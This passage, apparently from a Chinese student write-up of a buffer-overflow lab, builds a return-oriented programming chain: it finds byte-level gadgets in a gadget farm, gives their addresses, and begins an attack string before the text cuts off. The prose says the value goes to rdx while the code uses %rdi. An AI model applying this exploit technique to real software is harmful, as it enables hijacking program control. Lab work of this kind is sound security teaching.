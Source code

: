 + 根据从`farm`中找到的指令，构造如下两步指令，把存在栈中的cookie值取出到rax，再存入rdx。
```dotnetcli
popq %rax
ret
```
```dotnetcli
movq %rax, %rdi
ret
```
+ 设计思路如下：
  + getbuf执行返回操作ret，从栈中弹出返回地址（即我们设计的gardget1代码块），跳转到gardget1。
  + gadget1代码块执行，rsp指向cookie区域，弹出cookie，赋值给%rax，然后ret，继续弹出返回地址（即我们设计的gardget2代码块），跳转到gardget2。
  + gardget2代码块执行，cookie值赋值给参数寄存器%rdi，然后ret，rsp指向继续弹出返回地址，跳转到touch2
+ 栈的示意图如下。
![avatar](./photo/1.jpg)
+ 找两个gardget对应的代码块。
  + `pop %rax`指令为`58`:
    ```dotnetcli
      00000000004019f1 <setval_423>:
      4019f1:	c7 07 58 90 90 c3    	movl   $0xc3909058,(%rdi)
      4019f7:	c3                   	retq   
    ```
    指令地址：`0x4019f3`
  + `movq %rax, %rdi`为`48 89 c7`。
    ```dotnetcli
      00000000004019dd <getval_109>:
      4019dd:	b8 da 48 89 c7       	mov    $0xc78948da,%eax
      4019e2:	c3                   	retq   
    ```
    指令地址：`0x004019df`
+ 构造攻击串如下：
    ```dotnetcli
    00 00 00 00 00 00 00 00